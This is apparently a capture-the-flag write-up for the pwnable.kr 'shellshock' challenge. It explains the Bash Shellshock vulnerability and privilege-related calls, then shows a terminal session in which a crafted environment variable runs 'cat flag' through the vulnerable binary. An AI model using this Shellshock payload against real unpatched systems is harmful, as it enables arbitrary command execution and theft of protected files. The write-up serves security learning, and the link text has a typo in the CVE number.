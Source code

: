 # Pwnable.kr - shellshock
* [CVE 2014-6721](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)
    * **shellshock** : Vulnerability in Bash Shell which allows the execution of arbitrary command through environment variable.
    ```bash
        $ env t=4 bash -c 'echo $t'
        4
        $ env t='() { :; };echo hello' ./shellshock
        hello
        shock_me
    ```
* [setresuid, setresgid](https://man7.org/linux/man-pages/man2/setresuid.2.html#:~:text=setresuid()%20sets%20the%20real,saved%20set%2Duser%2DID.)
    ```c
        int setresuid(uid_t ruid, uid_t euid, uid_t suid);  
        /*
        sets the reauser ID, the effective user ID, and the saved   set-user-ID of the calling process.
        */
        int setresgid(gid_t rgid, gid_t egid, gid_t sgid);  
        /*
        sets the real GID, effective GID, and saved set-group-ID of the calling process (and always modifies the filesystem GID to be the same as  the effective GID), with the same restrictions for unprivileged processes.
        */
    ```

* [env (Linux commnad)](https://man7.org/linux/man-pages/man1/env.1.html) : run a program in a modified envirnoment

# Pwn
```bash
    shellshock@pwnable:~$ ls -l
    total 960
    -r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
    -r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
    -r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
    -r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
    shellshock@pwnable:~$ ./bash --version
    GNU bash, version 4.2.25(1)-release (x86_64-pc-linux-gnu)
    Copyright (C) 2011 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later
    <http://gnu.org/licenses/gpl.html>

    This is free software; you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    shellshock@pwnable:~$ env t='() { :; };cat flag' ./shellshock
    only if I knew CVE-2014-6271 ten years ago..!!
    Segmentation fault (core dumped)
```

